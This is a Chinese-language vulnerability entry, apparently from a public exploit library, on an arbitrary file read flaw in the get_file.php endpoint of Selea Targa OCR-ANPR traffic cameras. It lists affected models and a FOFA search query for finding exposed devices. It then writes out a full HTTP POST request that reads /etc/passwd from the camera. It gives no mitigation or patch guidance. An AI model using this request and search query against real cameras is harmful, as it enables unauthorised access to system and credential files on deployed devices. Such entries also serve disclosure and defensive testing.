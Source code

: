 ```yaml
---
title: Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - SELEA
---
```


# Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

> [!NOTE]
>
> Selea Selea Targa IP OCR-ANPR Camera iZero
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 512
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 504
>
> Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 805
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 750
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB

## FOFA

> [!NOTE]
>
> "selea_httpd"

## 漏洞复现

登录页面如下

![](/img/20210924015418760988.png)

发送如下请求包

```
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```

![](/img/20210924015419032937.png)

## Goby & POC

![](/img/20210924015419360657.png)